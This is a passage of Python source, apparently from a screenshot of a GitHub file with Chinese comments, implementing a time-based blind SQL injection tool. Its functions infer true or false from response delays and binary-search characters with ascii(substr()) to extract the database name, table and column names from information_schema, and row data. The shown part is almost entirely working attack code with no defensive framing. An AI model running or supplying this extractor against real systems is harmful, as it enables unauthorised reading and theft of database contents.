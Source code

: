 ```
    times = [send_payload(payload) for _ in range(REPEAT)]
    votes = sum(1 for t in times if t > SLEEP / 2)
    return votes > REPEAT // 2

# ================= 核心函数 =================
def get_length(expr: str, max_len: int = MAXLEN) -> int:
    for L in range(1, max_len+1):
        if is_true(f"length({expr})={L}"):
            print(f"[len] {expr} 长度 = {L}")
            return L
    return 0

def get_string(expr: str, max_len: int = MAXLEN) -> str:
    length = get_length(expr, max_len)
    result = ""
    for pos in range(1, length+1):
        low, high = min(CHARS), max(CHARS)
        while low <= high:
            mid = (low + high) // 2
            if is_true(f"ascii(substr({expr},{pos},1))>{mid}"):
                low = mid + 1
            else:
                high = mid - 1
        result += chr(high)
        print(f"[✓] pos {pos}: {chr(high)}  -> {result}")
    return result

def get_database():
    return get_string("database()")

def get_tables(dbname: str, limit: int = 10):
    tables = []
    for i in range(limit):
        expr = f"(select table_name from information_schema.tables where table_schema='{dbname}' limit {i},1)"
        name = get_string(expr)
        if not name:
            break
        tables.append(name)
    return tables

def get_columns(tablename: str, limit: int = 10):
    cols = []
    for i in range(limit):
        expr = f"(select column_name from information_schema.columns where table_name='{tablename}' limit {i},1)"
        name = get_string(expr)
        if not name:
            break
        cols.append(name)
    return cols

def get_data(tablename: str, colname: str, limit: int = 5):
    rows = []
    for i in range(limit):
        expr = f"(select {colname} from {tablename} limit {i},1)"
        value = get_string(expr)
        if not value:
            break
        rows.append(value)
    return rows

# ================= 主程序 =================
```
